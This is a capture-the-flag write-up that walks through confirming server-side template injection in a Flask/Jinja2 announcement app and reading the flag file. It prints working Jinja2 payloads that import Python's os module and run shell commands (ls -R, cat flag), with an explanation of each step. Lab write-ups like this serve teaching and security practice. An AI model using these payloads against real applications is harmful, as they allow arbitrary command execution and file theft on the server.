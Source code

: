 # **SSTI**

## Description

>I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps!


Simple announcement web app. POST `/announce` with form field `content`. Server header: `Server: Werkzeug/3.0.3 Python/3.8.10` — likely Flask + Jinja2. Goal: determine whether user-supplied templates are evaluated (Server-Side Template Injection) and, if so (CTF only), extract the flag.



---

## Recon

* Visited `/` and saw a form:


![first](./img/first.png)

  ```
  <form action="/" method="POST">
    What do you want to announce: <input name="content" id="announce"> <button type="submit"> Ok </button>
  </form>
  ```

* Observed server fingerprint:

  ```
  Server: Werkzeug/3.0.3 Python/3.8.10
  ```
  we can cheak this by using `curl`

  ![curl](./img/curl.png)

  → strong hint the app is Flask (Jinja2 templating).

* Captured a sample POST (URL-encoded):

  we will enter {{2*2}}  if SSTI is present then this will give us 4

  ```
  POST /announce HTTP/1.1
  Content-Type: application/x-www-form-urlencoded

  content=%7B%7B2*2%7D%7D
  ```
  ![brupsuit_1](./img/brupsuit_1.png)

  which decodes to `content={{2*2}}`.


  ![4](./img/4.png)


---

## Engine identification

* Server header + Python tracebacks (if any) → Jinja2 (Flask).

---

## Safe payload list (detection & low-impact info)

Use these first to confirm and learn about context:

* `{{7*7}}` → `49` if evaluated
* `{{"SSTI"}}` → `SSTI`
* `{{config}}` → may reveal config object or cause informative error
* `{% for i in [1,2,3] %}{{i}}{% endfor %}` → `123` if control structures allowed

(Do not run dangerous commands on non-CTF targets.)

---

## NEXT-STEP

1. **Recon filesystem** (if SSTI confirmed and allowed):
   `{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}`
   — lists files recursively (recon).

   ![](./img/ls.png)

   we can see that there is an file name flag we will use cat to get the contents inside it

2. **Read potential flag file(s)**:
   `{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}`
   will printout whats inside the flag file

   ![result](./img/result.png)



* `{{ ... }}` — Jinja2 template expression: evaluate the inside and insert the result into the rendered page.
* `request.application` — from the HTTP `request` object, access the running Flask/Werkzeug application instance.
* `.__globals__.__builtins__.__import__('os')` — reach Python globals/builtins and dynamically import the `os` module.
* `os.popen('ls -R')` — run the shell command `ls -R` and get a file-like handle to its output.
* `.read()` — read the command output into a string.

---


